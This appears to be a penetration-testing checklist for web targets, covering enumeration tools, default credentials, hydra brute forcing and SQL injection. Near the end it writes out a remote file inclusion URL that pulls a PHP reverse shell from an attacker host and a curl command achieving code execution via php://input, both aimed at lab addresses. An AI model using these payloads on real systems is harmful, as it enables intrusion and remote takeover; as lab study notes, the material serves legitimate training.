 # Web Path

## Methodology summary

* [ ] Use nmap / wappalyzer to **identify** the **technologies** used by the web server.
  * [ ] Any **known vulnerability** of the version of the technology? Think public CVE
  * [ ] Using any **well known tech**? Any **useful trick** to extract more information? Think information disclosure&#x20;
  * [ ] Any **specialised scanner** to run (like wpscan for wordpress sites)?
* [ ] Launch **general purposes scanners (gobuster, dirsearch etc)**.
* [ ] With the scans running, look at the source, network connections, cookies, robots.txt, sitemap, 404/403  error, and SSL/TLS scan.
* [ ] Start **spidering with Burp Suite.**
* [ ] When you identify a directory, also brute force that
* [ ] **Backups checking**: Test if you can find **backups** of **discovered files** appending common backup extensions.
* [ ] **Brute-Force parameters**: Try to **find hidden parameters**.
* [ ] Once you have **identified** all the possible **endpoints** accepting **user input**, check for all kind of **vulnerabilities** related to it.

## Basic Enumeration

* Find the index page
* Check wappalyzer in order to see what the page was built with
* What is the version of the web server running

### Paths

* Enumerate the url paths to see if anything is hidden, and to map the site
* Check `robots.txt`
* See if `php` files are taking parameters like `10.11.1.16/administrator/alerts/alertConfigField.php?urlConfig=`

### Is there a login form?

* If its `phpmyadmin` or another application
* Try default creds
* Try basic `SQL-i`

#### Is it user generated content?

* Is there a username?
* If there is use hydra and try to brute the login
* Try basic `SQL-i`

### Vulnerabilities

* Run `nikto`
* Exploit-db and look for vulnerabilities for the CMS or application running as well as the core version of the web server running
* Can you get RFI?

```
http://10.11.1.8/internal/advanced_comment_system/admin.php?ACS_path=http://192.168.119.123/php_reverse_shell.php%00
```

*

    <figure><img src="https://user-images.githubusercontent.com/75596877/133100040-9f4a1a6a-1b86-4955-9c4d-651d59e51b31.png" alt=""><figcaption></figcaption></figure>
* Can you now get RCE via RFI?

```
curl -s --data "<?system('ls -la');?>" "http://10.11.1.8/internal/advanced_comment_system/admin.php?ACS_path=php://input%00"
```

* Now can you get a true call back?
